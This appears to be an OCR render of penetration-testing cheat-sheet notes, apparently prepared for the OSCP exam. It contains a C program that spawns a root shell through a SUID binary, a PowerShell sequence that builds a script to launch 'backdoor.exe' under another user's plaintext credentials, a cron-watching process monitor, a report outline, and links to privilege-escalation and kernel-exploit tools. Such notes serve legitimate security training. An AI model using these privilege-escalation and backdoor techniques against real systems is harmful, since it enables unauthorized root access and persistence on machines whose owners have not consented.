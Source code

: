 
# SUID

Set owner user ID.

 int main(void){
         setresuid(0, 0, 0);
         system("/bin/bash");
       }

 # Compile
 `gcc suid.c -o suid`


Powershell Run as

Run file as another user with powershell.

     echo $username = '<username>' > runas.ps1
     echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
     echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePasswo
     rd >> runas.ps1
     echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runa
     s.ps1


# Process Monitor

Monitor processes to check for running cron jobs.

     #!/bin/bash

     # Loop by line
     IFS=$'\n'

     old_process=$(ps -eo command)

     while true; do
             new_process=$(ps -eo command)
             diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
             sleep 1
             old_process=$new_process
     done




Structure

       OSCP/
       ├── Offensive Security Lab Penetration Test Report
       │   ├── Introduction
       │   ├── Objective
       │   └── Scope
       ├── High-Level Summary
       │   └── Recommendations
       ├── Methodologies
       │   ├── Information Gathering
       │   ├── Service Enumeration
       │   ├── Penetration
       │   ├── Maintaining Access
       │   └── House Cleaning
       └── Findings
           ├── Box1 - 10.10.10.10
           ├── Box2 - 10.10.10.11
           ├── Box3 - 10.10.10.12

  [632d99cf]: https://github.com/sleventyeleven/linuxprivchecker "LinuxPrivChecher"
  [7e52e0f5]: https://github.com/rebootuser/LinEnum "LinEnum"
  [c844aa43]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp "PowerUp"
  [96609f81]: https://github.com/abatchy17/WindowsExploits "abatchy17"
  [233cd690]: https://github.com/lucyoa/kernel-exploits "kernel-exploits"